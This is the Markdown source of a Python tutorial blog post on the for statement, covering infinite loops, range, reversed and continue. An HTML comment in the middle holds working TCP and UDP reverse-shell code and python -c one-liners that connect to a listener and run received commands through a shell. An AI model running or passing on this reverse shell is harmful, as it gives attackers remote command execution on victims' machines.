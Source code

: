 ```yaml
---
layout: post
title: "🔁 Fundamentals Of Digital Discipleship, Part XV: The For Statement"
date: 2023-03-10 01:40:00 -0500
categories: digital computer programming python ministry
published: true
---
```


<!-- <span style="font-style:Italic;font-size:32px;">Chapter Header</span>

<span style="font-style:Italic;font-size:24px;">Sub Chapter Header</span> -->


<a href="https://docs.python.org/3/reference/compound_stmts.html#the-for-statement" style="font-weight:italic;font-size:2em;">The For Statement</a>

<span style="font-size:1.6em;">The Infinite Loop</span>

Generally we would use a while loop to create an infinite loop; however, so as to be thorough, I'll provide a few examples of an infinite loop using the for statement. Itertools comes in handy with its count and repeat methods.

```py
import itertools

# Count up
for i in itertools.count():
    # Do something infinitely
    # with available count
    print(f"{i}", end=" ")

# Countdown
for i in itertools.count(start=10, step=-1):
    # Do something infinitely
    # with a negative count
    print(f"{i}", end=" ")

# Loop infinitely
for i in itertools.repeat(None):
    # Do something infinitely
    print(f"{i}", end=" ")
```

There's another, somewhat unorthodox, method of creating an infinite loop with the for statement. This comes in handy with one-liners where you're trying to avoid any imports. From the command line for instance.

```py
# Unorthodox Infinite Loop
for i in iter(int, 1):
    # Do something infinitely
    print(f"{i}", end=" ")

# Infinite list comprehensions
[print(_) for _ in iter(int, 1)]
[print(_) for _ in iter(lambda:0, 1)]

# Infinite list comprehensions w/ count
[print(i) for i in itertools.count()]

# Infinite list comprehensions w/ negative count
[print(i) for i in itertools.count(step=-1)]
[print(i) for i in itertools.count(start=10, step=-1)]
```

<!-- An advanced example, that you do not need to comprehend, might be

## **Command Line**

The command line requires that we invent a one line solution so we have to rethink our design a bit. This is the most succinct `persistent reverse shell` that I could come up with at the moment of this writing. The backbone of the infinite loop is this snippet: `[print(_) for _ in iter(int, 1)]`, because int() always returns 0 and the sentinel value is 1 which is never met, we have created an infinite for loop list comprehension that will work in a one-liner. 

Remember that `socket()` defaults to AF_INET (IPv4) and SOCK_STREAM (TCP) so we don't need to waste space in our string importing and using those properties. We've also taken advantage of setting stderr to STDOUT which indicates that the stderr data from the application should be captured into the same file handle as stdout. This saves more space now that we don't have to append proc.stderr.read().

Because sockets are `automatically closed when they are garbage-collected`, despite the fact that it is recommended to use `with` or `close()`, we could probably neglect their use in this context.

# Reverse Shell

```python
from socket     import *
from subprocess import *

# @infinite
def reverse_shell():
    s = socket()
    s.connect(('127.0.0.1', 4444))
    # s = create_connection(('127.0.0.1', 4444))
    [ 
        s.send(
            Popen(
                args=str(s.recv(512), 'ascii'),
                stdout=PIPE,stderr=STDOUT,shell=True
            ).stdout.read()
        ) for _ in iter(int, 1) #..iter(lambda:0, 1) also
    ]
    # s.close() relying on garbage collector to shorten code

if __name__ == "__main__":
    reverse_shell()
```

```python
python -c "from socket import *;from subprocess import *;s = socket();s.connect(('127.0.0.1', 4444));[s.send(Popen(args=str(s.recv(512), 'ascii'),stdout=PIPE,stderr=STDOUT,shell=True).stdout.read()) for _ in iter(int, 1)];"
```

```python
python -c "from socket import *;from subprocess import *;s = create_connection(('127.0.0.1', 4444));[s.send(Popen(args=str(s.recv(512), 'ascii'),stdout=PIPE,stderr=STDOUT,shell=True).stdout.read()) for _ in iter(int, 1)];"
```

# Reverse Shell (UDP)

```python
from subprocess import *
from socket     import *

@infinite
def reverse_shell_udp():
    ADDR = ('127.0.0.1', 4444)
    s = socket(type=SOCK_DGRAM)
    s.sendto(b': ', ADDR) 
    [
        s.sendto(
            Popen(
                args = str(s.recvfrom(512)[0], 'ascii'),
                stdout = PIPE, stderr = STDOUT, shell = True
            ).stdout.read(),
            ADDR
        ) for _ in iter(int, 1) 
    ]
    
if __name__ == "__main__":
    reverse_shell_udp()
```

```python
python -c "from subprocess import *;from socket import *;ADDR = ('127.0.0.1', 4444);s = socket(type=SOCK_DGRAM); s.sendto(b': ', ADDR);[s.sendto(Popen(args = str(s.recvfrom(512)[0], 'ascii'),stdout = PIPE, stderr = STDOUT, shell = True).stdout.read(), ADDR) for _ in iter(int, 1)]"
``` -->

<span style="font-size:1.6em;">Breaking Out Of The Loop</span>

Because for loops are rarely, if ever, used with an infinite condition, now is a good time to introduce the [range](https://docs.python.org/3/library/stdtypes.html#ranges) keyword. 

> The range type represents an immutable sequence of numbers and is commonly used for looping a specific number of times in for loops.

The [list built-in](https://docs.python.org/3/library/functions.html) helps us visualize the output from range (immutable sequence type)

```py
# [0, 1, 2, 3, 4, 5, 6, 7, 8, 9]
# Same as list(range(0, 10))
list(range(10))

# [9, 8, 7, 6, 5, 4, 3, 2, 1, 0]
list(range(9, -1, -1))

# [1, 2, 3, 4, 5, 6, 7, 8, 9, 10]
list(range(1, 10+1))

# [10, 9, 8, 7, 6, 5, 4, 3, 2, 1]
list(range(10, 0, -1))
```

Now that we understand range a bit better, let's see how we can combine it with the for statement for something very powerful and efficient.

```py
# 0 1 2 3 4 5 6 7 8 9
for i in range(10):
    print(i, end=" ")
```

Here are comparisons using while. You can see how much more verbose they are by comparison to the for example. The utilization of an assignment expression with the walrus operator does give a succinct example of an equivalent while; however, nothing is so simple as the for statement for this purpose.

```py
# 0 1 2 3 4 5 6 7 8 9
i = 0
while True:
    print(i, end=" ")
    i += 1
    if i == 10:
        break

# 0 1 2 3 4 5 6 7 8 9
i = 0
while i < 10:
    print(i, end=" ")
    i += 1

# 0 1 2 3 4 5 6 7 8 9
i = -1
while (i := i + 1) < 10:
    print(i, end=" ")
```

Now watch how simple it is to reverse using the for statement and the [reversed](https://docs.python.org/3/library/functions.html#reversed) keyword.

```py
# 9 8 7 6 5 4 3 2 1 0
for i in reversed(range(10)):
    print(i, end=" ")
```

Now let's, once again, look at all the extra work we would have to do if we decided to use a while loop for iteration.

```py
# 9 8 7 6 5 4 3 2 1 0
i = 9
while True:
    print(i, end=" ")
    if i == 0:
        break

    i -= 1

# 9 8 7 6 5 4 3 2 1 0
# same as while i > -1:
i = 9
while i >= 0:
    print(i, end=" ")
    i -= 1

# 9 8 7 6 5 4 3 2 1 0
# same as while (i := i - 1) > -1:
i = 10
while (i := i - 1) >= 0:
    print(i, end=" ")
```

<span style="font-size:1.6em;">Skipping An Iteration With Continue</span>

```py
# 0 1 2 [skipped] 4 5 6 7 8 9
for i in range(10):
    if i == 3:
        print("[skipped]", end=" ")
        continue
    
    print(i, end=" ")

# 9 8 7 6 5 4 [skipped] 2 1 0 
for i in reversed(range(10)):
    if i == 3:
        print("[skipped]", end=" ")
        continue
    
    print(i, end=" ")
```

By comparion, the while is much more verbose for this purpose.

```py
# 1 2 [skipped] 4 5 6 7 8 9 10
count = 0
while count := count + 1:
    if count == 3:
        print("[skipped]", end=" ")
        continue

    print(f"{count}", end=" ")
    if count == 10:
        break

# 1 2 [skipped] 4 5 6 7 8 9 10
count = 0
while (count := count + 1) <= 10:
    if count == 3:
        print("[skipped]", end=" ")
        continue

    print(f"{count}", end=" ")

# 9 8 7 6 5 4 [skipped] 2 1 0 
count = 10
while (count := count - 1) >= 0:
    if count == 3:
        print("[skipped]", end=" ")
        continue

    print(f"{count}", end=" ")
```

<script>
    var refTagger = {
        settings: {
            bibleVersion: 'ESV'
        }
    }; 

    (function(d, t) {
        var n=d.querySelector('[nonce]');
        refTagger.settings.nonce = n && (n.nonce||n.getAttribute('nonce'));
        var g = d.createElement(t), s = d.getElementsByTagName(t)[0];
        g.src = 'https://api.reftagger.com/v2/RefTagger.js';
        g.nonce = refTagger.settings.nonce;
        s.parentNode.insertBefore(g, s);
    }(document, 'script'));
</script>